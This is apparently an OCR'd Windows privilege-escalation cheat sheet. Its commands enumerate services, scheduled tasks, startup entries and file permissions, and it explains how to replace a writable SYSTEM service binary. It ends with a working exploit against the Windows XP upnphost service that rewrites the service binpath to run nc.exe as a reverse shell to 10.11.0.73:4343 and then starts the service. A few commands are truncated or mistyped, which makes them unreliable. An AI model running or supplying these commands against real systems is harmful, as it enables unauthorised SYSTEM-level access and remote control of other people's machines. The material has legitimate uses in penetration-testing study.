 #### List services

    net start
    wmic service list brief
    tasklist /SVC

#### Scheduled tasks

    schtasks /query /fo LIST 2>nul | findstr TaskName
    schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
    Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

#### Startup tasks

    wmic startup get caption,command
    reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
    reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
    reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
    dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
    dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"

#### Incorrect permissions in services

    A service running as Administrator/SYSTEM with incorrect file permissions might allow EoP. You can replace the binary, restart the service and get system.

#### Often, services are pointing to writeable locations:

    Orphaned installs, not installed anymore but still exist in startup
    DLL Hijacking
    PATH directories with weak permissions

    $ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
    $ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

    $ sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
    FOR /F %i in (Servicenames.txt) DO echo %i
    type Servicenames.txt
    FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt

#### Note to check file permissions you can use cacls and icacls

    icacls (Windows Vista +)
    cacls (Windows XP)

#### You are looking for BUILTIN\Users:(F)(Full access), BUILTIN\Users:(M)(Modify access) or BUILTIN\Users:(W)(Write-only access) in the output.
Example with Windows XP SP1

####  NOTE: spaces are mandatory for this exploit to work !
    sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"
    sc config upnphost obj= ".\LocalSystem" password= ""
    sc qc upnphost
    sc config upnphost depend= ""
    net start upnphost

